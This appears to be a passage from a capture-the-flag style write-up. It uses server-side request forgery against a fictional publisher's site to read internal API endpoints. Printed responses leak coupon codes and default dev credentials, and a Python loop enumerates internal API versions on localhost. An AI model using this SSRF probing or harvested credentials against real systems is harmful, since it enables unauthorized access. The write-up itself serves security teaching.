 ```python
pprint(promotions.text)
pprint(coupons.text)
pprint(new_authors.text)
pprint(platform_use.text)
pprint(changelog.text)
pprint(latest.text)
```

```javascript
<SNIP NOTHING FOUND'
    '[{"2anniversaryTWOandFOURread4":{"contact_email_2":"info@tiempoarriba.oc","valid_until":"12/02/2024"}},{"frEsh11bookS230":{"contact_email_2":"info@tiempoarriba.oc","valid_until":"31/11/2023"}}]\n'
    ('{"template_mail_message":"Welcome to the team! We are thrilled to have you '
     "on board and can't wait to see the incredible content you'll bring to the "
     'table.\\n\\nYour login credentials for our internal forum and authors site '
     'are:\\nUsername: dev\\nPassword: dev080217_devAPI!@\\nPlease be sure to '
     "change your password as soon as possible for security purposes.\\n\\nDon't "
     "hesitate to reach out if you have any questions or ideas - we're always here "
     'to support you.\\n\\nBest regards, Editorial Tiempo Arriba Team."}\n')
<SNIP NOTHING FOUND'
    ('[{"1":{"api_route":"/api/v1/metadata/","contact_email_1":"soporte@tiempoarriba.oc","contact_email_2":"info@tiempoarriba.oc","editorial":"Editorial '
     'El Tiempo Por '
     'Arriba"}},{"1.1":{"api_route":"/api/v1.1/metadata/","contact_email_1":"soporte@tiempoarriba.oc","contact_email_2":"info@tiempoarriba.oc","editorial":"Ed '
     'Tiempo '
     'Arriba"}},{"1.2":{"contact_email_1":"soporte@tiempoarriba.oc","contact_email_2":"info@tiempoarriba.oc","editorial":"Editorial '
     'Tiempo '
     'Arriba","endpoint":"/api/v1.2/metadata/"}},{"2":{"contact_email":"info@tiempoarriba.moc.oc","editorial":"Editorial '
     'Tiempo Arriba","endpoint":"/api/v2/metadata/"}}]\n')
<SNIP NOTHING FOUND'
```

I found some default dev credentials that I'll store for later, and then spent some time seeing if there was an authenticated API endpoint I might be able to abuse.

I also attempted to load other versions of the listed API version from the changelog endpoint without any luck. 


```python
dev_account = {'username': 'dev', 'password': 'dev080217_devAPI!@'}
versions = ['v1', 'v1.1', 'v1.2', 'v2', 'latest']
endpoints = ['messages/promos', 'messages/coupons', 'messages/authors', 'messages/how_to_use_platform', 'changelog', '']
for version in versions:
    for uri in endpoints:
        response = ssrf_reflection(f'http://127.0.0.1:5000/api/{version}/metadata/{uri}')
        print(f'API Version: {version} URI: {uri}')
        pprint(response.text)
```

